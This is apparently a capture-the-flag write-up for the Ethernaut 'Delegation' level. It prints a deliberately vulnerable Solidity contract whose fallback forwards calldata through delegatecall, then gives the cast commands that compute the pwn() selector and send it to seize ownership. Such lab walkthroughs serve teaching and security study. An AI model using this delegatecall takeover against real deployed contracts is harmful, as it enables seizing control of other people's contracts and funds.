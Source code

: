 ## Fallback Level Outline

**Difficulty : 4/10**

The goal of this level is for you to claim ownership of the instance you are given.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

## Solution

We can **spoof** the delegate call by sending a transation that contains the function signature to the "pwn()" function.

### Walkthrough

1. getting the methodId for the pwn() function
```console
cast calldata "pwn()"
```
output : 
```console
0xdd365b8b
```
2. making a call to the fallback function with the methodId in `msg.data`
```console
cast send $LEVEL_ADDRESS 0xdd365b8b --gas 50000 --private-key $PRIVATE_KEY 
```
> we need to set a custom gas limit for this transaction as the default amount insufficient

## Further Reading
[video on Delegatecall](https://www.youtube.com/watch?v=uawCDnxFJ-0&t=208s)
[More info about methodId](https://docs.soliditylang.org/en/v0.8.13/abi-spec.html)

